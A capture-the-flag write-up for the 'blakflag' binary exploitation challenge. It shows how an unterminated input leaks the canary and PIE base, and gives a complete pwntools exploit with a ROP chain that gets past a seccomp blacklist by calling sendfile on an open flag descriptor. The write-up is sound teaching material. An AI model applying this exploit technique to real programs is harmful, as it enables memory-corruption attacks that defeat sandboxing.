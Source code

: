 # blakflag
### TL;DR
The original description hinted that you have to leak the flag.

`pwn, seccomp, guess`

`nc blakflag-01.pwn.beer 45243`

[binary](./chall) (`stripped`, `x64`)

* Can leak PIE and Canary -> ROP
* Seccomp blacklist
* Flag file descriptor never closed
    * `sys_sendfile` not blacklisted but need to set `rax=0x28`
    * `sys_write` gadget available and not blacklisted
        * Set `rax=0x28` using return value from `sys_write`

**SECT{bL4cKlIs7S_4Re_A_r1skY_b1znaS}**

## Walkthrough

This was a fun challenge in ROP and seccomp where you had three attempts at "guessing the flag" to the given binary:

```
$ ./chall 

 ▄█████████▄ ▄███        ▄▄████████▄ ▄███  ▄█████ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ████▀▀▀████ ████        ████▀▀▀████ ████▄█████▀▀  ▄▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ████▄▄▄███▀ ████        ████▄▄▄████ ████████▀▀    ▀▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ████▀▀▀███▄ ████        ████▀▀▀████ █████████▄     ▄▄▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ████▄▄▄████ ████▄▄▄▄▄▄▄ ████   ████ ████▀▀█████▄    ▄ ▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ██████████▀ ███████████ ████   ████ ████  ▀▀████    ▀▄ ▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀    ▀▀▀▀     ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ▄▄█████████ ▄███        ▄▄████████▄ ▄▄█████████      ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ████▀▀▀▀▀▀▀ ████        ████▀▀▀████ ████▀▀▀▀▀▀▀      ▀▄▄▄▄▀    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
 ████▄▄▄     ████        ████▄▄▄████ ████ ▄▄▄▄▄        ▄▄▀      ▀▀▀▀▀▀▀▀▀▀▀▄▄▄▄ 
 ████▀▀▀     ████        ████▀▀▀████ ████ ▀▀████        ▄▄                   ▀▀ 
 ████        ████▄▄▄▄▄▄▄ ████   ████ ████▄▄▄████         ▄
 ████        ███████████ ████   ████ ▀█████████▀         ▀▄
 ▀▀▀▀        ▀▀▀▀▀▀▀▀▀▀▀ ▀▀▀▀   ▀▀▀▀  ▀▀▀▀▀▀▀▀▀           ▄

flag (1/3): asd
it is not asd
flag (2/3): asd
it is not asd
flag (3/3): asd
it is not asd
```

(The binary reads the real flag from `/home/ctf/flag`)

Normal security options are enabled. Even though the output below says stack canaries are disabled, **the binary does check a canary**.
```
>>> ELF('./chall')
[!] Did not find any GOT entries
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Poking around, we see **the binary fails to null-terminate our input** and thus **leaks information**. We also trigger a stack buffer overflow:
```
flag (1/3): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
it is not AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
#OJ�GN�gm>V
flag (2/3): asd
it is not asd
flag (3/3): asd
it is not asd
*** stack smashing detected ***: <unknown> terminated
```

Interestingly enough, the stack smashing is not called until after our third guess. Perhaps we can **leak the canary in our first attempts, bypass the check and start to ROP!** After some debugging, we find that the `canary` followed by a `PIE` address lies at a 152 bytes offset from our input. 

```python
#!/usr/bin/python2

from pwn import *

p = process('./chall')
#p = remote('blakflag-01.pwn.beer', 45243)

with context.quiet:
    # Leak pie and canary (1)
    padding = "A"*152
    p.sendlineafter("flag (1/3): ", padding)
    p.recvuntil("it is not " + padding + "\n")
    leak = p.recvline()
    canary = u64(leak[0:7].rjust(8, chr(0x0)))
    pie = u64(leak[7:-1].ljust(8, chr(0x0))) - 0xf1e
    print "Got canary: %s" % hex(canary)
    print "Got pie: %s" % hex(pie)
```

```
$ ./exploit.py 
[+] Starting local process './chall': pid 19026
Got canary: 0xe5cdcf1bb16d0800
Got pie: 0x555e0b4c6000
```

Great, we can now control `rip`!

### seccomp
The binary used `seccomp` to **blacklist certain syscalls**:
<details><summary>

`read`, `open`, `mmap`, `mprotect`, `clone`, `fork`, `vfork`, `execve`,`creat`, `openat`, `execveat`.
</summary>
<p>

```
$ seccomp-tools dump ./chall
...
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x00000000  return KILL
 0006: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0010
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 0010: 0x15 0x00 0x01 0x0000000a  if (A != mprotect) goto 0012
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 0012: 0x15 0x00 0x01 0x00000038  if (A != clone) goto 0014
 0013: 0x06 0x00 0x00 0x00000000  return KILL
 0014: 0x15 0x00 0x01 0x00000039  if (A != fork) goto 0016
 0015: 0x06 0x00 0x00 0x00000000  return KILL
 0016: 0x15 0x00 0x01 0x0000003a  if (A != vfork) goto 0018
 0017: 0x06 0x00 0x00 0x00000000  return KILL
 0018: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0020
 0019: 0x06 0x00 0x00 0x00000000  return KILL
 0020: 0x15 0x00 0x01 0x00000055  if (A != creat) goto 0022
 0021: 0x06 0x00 0x00 0x00000000  return KILL
 0022: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0024
 0023: 0x06 0x00 0x00 0x00000000  return KILL
 0024: 0x15 0x00 0x01 0x00000142  if (A != execveat) goto 0026
 0025: 0x06 0x00 0x00 0x00000000  return KILL
 0026: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0028
 0027: 0x06 0x00 0x00 0x00000000  return KILL
 0028: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

</p>
</details>

Even though seccomp is enabled using `prctl` instead of using a lib, it makes sure to blacklist some known bypasses, such as [calling `0x40000002` instead of `0x00000002`](https://ctftime.org/task/8059) or changing the architecture during runtime.

*Shoutout to [seccomp-tools](https://github.com/david942j/seccomp-tools), a great utility!*

We notice some things here:
* `execve` etc. is disabled, meaning we are probably not supposed to spawn a shell
    * The challenge description also hinted that you're supposed to just leak the flag.
* `write` isn't blacklisted.

### ROP/recon
Recall that `rdi`, `rsi`, `rdx`, `r10`, ... are used for passing parametersto syscalls, and that `rax` is used to select which syscall. We find some very neat gadgets:
```
pop r10 ; pop rdx ; pop rdi ; pop rsi ; ret <- neat!
xor rax, rax ; mov al, 1 ; syscall ; ret <- sys_write
```

So here we start googling around on how to read a file despite `seccomp` blacklists. Around the same time we also realize that **the binary never closes the flag file descriptor**. We stumble upon [this page](https://github.com/unixist/seccomp-bypass) and learn that we can use `sys_sendfile` (`rax=0x28`) to send data from one file descriptor to another.

But we have no way to set `rax` to `0x28`  reliably... *Or do we?*

### Solution
After sitting in frustration for a while we remember a common behaviour from `read/write` functions: **The amount of bytes read/written are stored in the return value (`rax`)!** 

`exploit.py`

```python
#!/usr/bin/python2

from pwn import *

p = process('./chall')
#p = remote('blakflag-01.pwn.beer', 45243)

with context.quiet:
    # Leak pie and canary (1)
    padding = "A"*152
    p.sendlineafter("flag (1/3): ", padding)
    p.recvuntil("it is not " + padding + "\n")
    leak = p.recvline()
    canary = u64(leak[0:7].rjust(8, chr(0x0)))
    pie = u64(leak[7:-1].ljust(8, chr(0x0))) - 0xf1e
    print "Got canary: %s" % hex(canary)
    print "Got pie: %s" % hex(pie)

    # Place ropchain (2)
    start = pie + 0xe3a
    pop_rdx_rdi_rsi = pie + 0x0000000000000f93
    syscall_write = pie + 0x0000000000000f54
    pop_r10_rdx_rdi_rsi = pie+0x0000000000000f91
    arb_syscall = pie + 0x0000000000000f50

    p.sendlineafter("flag (2/3): ", 
        padding +
        p64(canary) + 
        ("A"*8)+
        p64(pop_rdx_rdi_rsi) +
        p64(0x28) + p64(0x2) + p64(start) +         # sys_write: Write 0x28 bytes from pointer ("start") to stderr
        p64(syscall_write) +                        # Return value (rax) is set to 0x28 
        p64(pop_r10_rdx_rdi_rsi) + 
        p64(0x40) + p64(0x0) + p64(0x1) + p64(0x3)+ # sys_sendfile: Copy 0x40 bytes from flag fd to stdout, with offset set to NULL
        p64(arb_syscall)                            # Give flag plz!
    )   

    # Use up the last attempt (3) -> trigger ropchain
    p.sendlineafter("flag (3/3): ", "Lol")
        
    p.recvuntil("SECT")
    print "SECT%s" % p.recvline()
```

```
$ ./exploit.py 
Got canary: 0x48828f9b108c7c00
Got pie: 0x55eb9c72b000
SECT{bL4cKlIs7S_4Re_A_r1skY_b1znaS}
```
